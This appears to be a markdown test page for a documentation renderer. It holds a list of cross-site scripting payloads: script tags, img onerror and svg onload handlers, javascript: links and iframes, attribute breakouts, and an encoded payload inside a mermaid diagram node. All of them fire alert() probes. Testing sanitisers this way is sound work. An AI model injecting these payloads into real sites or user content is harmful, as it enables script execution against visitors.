 # injection

pentest

<script>alert('XSS');</script>

![Broken Image](invalid.jpg ':size=250' )
<img src="invalid.jpg" onerror="alert('XSS')">

<svg onload="alert('XSS')"></svg>

<img src="valid-image.jpg" alt="test" title="XSS" onerror=alert('XSS')>

<img src="valid-image.jpg" alt="test" title="><script>alert('XSS')</script>">

<iframe src="javascript:alert('XSS');"></iframe>

[Click Me](javascript:alert('XSS'))

[malicious link](something"onmouseover="alert('XSS'))

## XSS Test
 ```mermaid
  graph LR
      B-->D(<img onerror=location=`javascript\u003aalert\u0028document.domain\u0029` src=x>);
 ```
## js script
-[get jpg](/SampleJPGImage_1mbmb.jpg ':target=_blank')
-[get js](/exploit.js)
![get js](/exploit.js)
-[get js](/pentest.svg)
![get js](/pentest.svg)
-[get js](/pentest.svg.png)
![get js](/pentest.svg.png)

-[pentest](/pentest.js ':include :type=code')

```
## iFrames Test

<figure>
<iframe width="425" height="350" frameborder="0" scrolling="no" marginheight="0" marginwidth="0" src="https://i.ytimg.com/vi/-IXqbuMOwYg/hq720.jpg?sqp=-oaymwEcCNAFEJQDSFXyq4qpAw4IARUAAIhCGAFwAcABBg==&rs=AOn4CLDmcWpHub9FsBmp6vQgQTz0sWK14Q" style="border: 1px solid black"></iframe>
</figure>

<figure>
<iframe width="560" height="315" src="https://www.youtube.com/embed/-IXqbuMOwYg" title="YouTube video player" frameborder="0" allow="accelerometer; autoplay; clipboard-write; encrypted-media; gyroscope; picture-in-picture" allowfullscreen></iframe>
</figure>
```
